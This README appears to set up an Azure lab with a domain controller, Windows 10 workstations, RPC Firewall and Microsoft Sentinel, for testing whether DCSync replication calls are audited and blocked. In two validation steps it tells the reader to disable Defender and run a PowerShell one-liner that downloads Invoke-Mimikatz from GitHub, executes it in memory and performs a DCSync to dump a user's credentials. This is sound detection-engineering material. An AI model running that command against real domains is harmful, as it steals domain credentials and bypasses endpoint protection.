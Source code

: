 # Windows 10 + Domain Controller (Active Directory) + RPC Firewall (RPCFW) Project 

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)
[![Deploy to Azure Gov](https://aka.ms/deploytoazuregovbutton)](https://portal.azure.us/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
    * [Windows Forwarded Events](https://learn.microsoft.com/en-us/azure/sentinel/data-connectors/windows-forwarded-events) data connector enabled.
    * [Data collection rule (DCR)](https://docs.microsoft.com/en-us/azure/templates/microsoft.insights/datacollectionrules?tabs=json) to collect RPC Firewall events.
    * [Windows RPC Firewall parser](https://raw.githubusercontent.com/OTRF/Microsoft-Sentinel2Go/master/microsoft-sentinel/linkedtemplates/parsers/winRPCFWLogs.json).
* One Windows Active Directory domain (One Domain Controller)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* Windows 10 Workstations (Max. 10)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* [OPTIONAL] Command and Control (c2) options:
    * `empire`
    * `metasploit`
* Remote Access Restrictions (`AllowPublicIP` default option)
    * Access via Azure Bastion (Recommended. Additional costs applied)
    * Restrict Access to one Public IP Address (For example, Home Public IP Address)

## Validate Event Generation

1. RDP to DC01
2. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_check_events.png)

## Validate RPC Firewall Capabilities
### Monitor Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData\<RPC Release>` folder.
2. Validate that the following entry exists in the config file:

```
fw:uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:allow audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```

6. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_mk_dcsync.png)

### Block Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData\<RPC Release>` folder.
2. Validate that the following entry exists in the config file:

```
fw:uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 addr:127.0.0.1 action:allow
fw:uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:block audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```
4. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_block_replication_event.png)

## Query Events in Microsoft Sentinel

1. Go to [https://portal.azure.com/](https://portal.azure.com/) and search for "Microsoft Sentinel".
2. Go to `logs`
3. There will be a function / parser already available for you to query RPC Firewall events:

![](../../resources/images/win10-rpcfw_query_rpcfirewall_limit10.png)

4. Run a basic query to find the use of Directory Replication Services (DRS) in your environment:

![](../../resources/images/win10-rpcfw_query_rpcfirewall_where_replication.png)

## References:
* https://github.com/Cyb3rWard0g/WinRpcFunctions
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0
* https://github.com/zeronetworks/rpcfirewall
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410